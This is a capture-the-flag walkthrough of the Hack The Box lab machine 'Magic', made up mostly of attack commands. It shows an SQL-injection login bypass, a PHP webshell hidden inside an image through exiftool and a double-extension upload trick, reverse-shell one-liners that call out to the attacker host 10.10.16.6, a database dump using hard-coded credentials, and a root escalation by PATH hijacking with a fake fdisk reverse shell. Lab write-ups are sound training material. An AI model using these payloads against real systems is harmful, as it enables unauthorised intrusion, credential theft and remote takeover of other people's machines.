

# [Magic](https://app.hackthebox.com/machines/magic)

```bash
nmap -p- --min-rate 10000  10.10.10.185 
```


After knowing open ports, let's do nmap scan for these ports.

```bash
nmap -p22,80 -sV -sC -A 10.10.10.185
```


While browsing HTTP of this machine, we can see '/login.php'.

Let's try to do SQLI to bypass authentication.

Yes it worked SQLI to bypass login. I enter values like that,

username: ' or 1=1-- -
password: test


I see that images of web application is served on '/images' directory.It means , if we upload malicious file, we can browse on this directory.


I do File Upload bypass with below tricks.

1. Change filename from '.png' into '.php.png'
2. Add below webshell into middle of png file.
```bash
<?php system($_GET[cmd]); ?>
```
3. Content-Type should be 'image/png'.

We use exiftool to comment our reverse shell script into image.
```bash
exiftool -DocumentName='<h1>Dr4ks<br><?php system($_GET[cmd]); ?></h1>' images.jpeg
```



We upload 'images.php.jpeg' file.


While we browsing this file and enter OS commands into URL, our attack executes.


Now, it's time for reverse shell and URL should be like this.

```bash
http://10.10.10.185/images/uploads/images.php.jpeg?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.6/1337 0>%261'
```


We got reverse shell.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


While enumerating machine, I find hard-coded credentials on '/var/www/Magic' directory and file called 'db.php5'


We find below credentials for database.


theseus: iamkingtheseus


We cannot connect directly to database via above credentials, I find 'mysqldump' which used to dump database.

```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```


Here, we find another password: Th3s3usW4sK1ng

That's password of 'theseus' user.

user.txt


For privilege escalation vector, I find '/bin/sysinfo' file with SUID binary.

I `ltrace` a `sysinfo` binary and see that 'fdisk' binary is used, that's why we need to add reverse shell into 'fdisk' binary.
 


We can be root by doing below steps, we do this by abusing **'$PATH' variable**.

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.6/1338 0>&1' > fdisk

chmod +x fdisk 

export PATH="/dev/shm:$PATH"

sysinfo  
```


root.txt

